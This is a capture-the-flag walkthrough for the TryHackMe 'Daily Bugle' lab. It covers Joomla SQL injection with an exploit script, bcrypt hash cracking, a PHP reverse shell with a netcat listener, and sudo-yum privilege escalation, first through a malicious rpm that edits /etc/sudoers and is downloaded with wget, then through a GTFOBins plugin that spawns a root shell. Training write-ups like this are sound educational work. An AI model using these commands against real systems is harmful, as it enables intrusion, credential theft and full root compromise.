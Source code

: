 # Daily Bugle

**Room Link:** [https://tryhackme.com/room/dailybugle](https://tryhackme.com/room/dailybugle)



### **Deploy**

**Access the web server, who robbed the bank?**

<figure><img src="../../.gitbook/assets/image (4) (3).png" alt=""><figcaption></figcaption></figure>

### Initial Shell

```
nmap -A 10.10.116.159
```

<figure><img src="../../.gitbook/assets/image (18) (2).png" alt=""><figcaption></figcaption></figure>



**Python Script**

```
git clone https://github.com/stefanlucas/Exploit-Joomla.git 
cd Exploit-Joomla/ 
python3 joomblah.py http://10.10.116.159
```

<figure><img src="../../.gitbook/assets/image (36) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
 [$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
  -  Extracting sessions from fb9j5_session

```

### Cracking the hash

```
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt
```

<figure><img src="../../.gitbook/assets/image (24) (2).png" alt=""><figcaption></figcaption></figure>

We can  now login to Joomla with the credentials we have found

```
Username: jonah
Password: spiderman123
```

<figure><img src="../../.gitbook/assets/image (40) (1).png" alt=""><figcaption></figcaption></figure>

### Reverse Shell

All I did was follow this tutorial to get a reverse shell.&#x20;

**Tutorial:** [https://www.hackingarticles.in/joomla-reverse-shell/](https://www.hackingarticles.in/joomla-reverse-shell/)

**Kali**

```
nc -lvp 1234
```

**Browser**

<figure><img src="../../.gitbook/assets/image (22) (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (3) (4).png" alt=""><figcaption></figcaption></figure>

Used this PHP reverse shell, just needed to change the IP to my own.

**PHP Reverse Shell:** [https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

<figure><img src="../../.gitbook/assets/image (1) (4).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (4) (2).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

```
python -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```

### Privilege Escalation&#x20;

#### **Option #1 - Create malicious rpm file**

Found a password in the configuration file. The password worked for the user jjameson which was found in the home directory.

<figure><img src="../../.gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

```
ssh jjameson@10.10.116.159
Password: nv5uz9r3ZEDzVjNu
```



jjamerson is able to run yum with no password as sudo

```
sudo -l
```

<figure><img src="../../.gitbook/assets/image (1) (5).png" alt=""><figcaption></figcaption></figure>

**Kali**&#x20;

```
echo 'echo "jjameson ALL=(root) NOPASSWD: ALL" >> /etc/sudoers' > hack.sh 
git clone https://github.com/jordansissel/fpm.git 
cd fpm/bin/ 
./fpm -n root -s dir -t rpm -a all --before-install /root/hack.sh . 
python2 -m SimpleHTTPServer 81
```

Our fpm file is now created&#x20;

<figure><img src="../../.gitbook/assets/image (2) (1) (2).png" alt=""><figcaption></figcaption></figure>

**Victim**&#x20;

```
cd /tmp/ 
wget http://10.10.160.125:81/root-1.0-1.noarch.rpm 
sudo yum localinstall root-1.0-1.noarch.rpm 
sudo -i
```

<figure><img src="../../.gitbook/assets/image (19) (2).png" alt=""><figcaption></figcaption></figure>

#### **Option #2 -** Spawn interactive root shell by loading a custom plugin

**Exploit Link:** [https://gtfobins.github.io/gtfobins/yum/](https://gtfobins.github.io/gtfobins/yum/)

Just had to copy paste from gtfobins and it worked right away

```
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```

<figure><img src="../../.gitbook/assets/image (1) (2) (3).png" alt=""><figcaption></figcaption></figure>


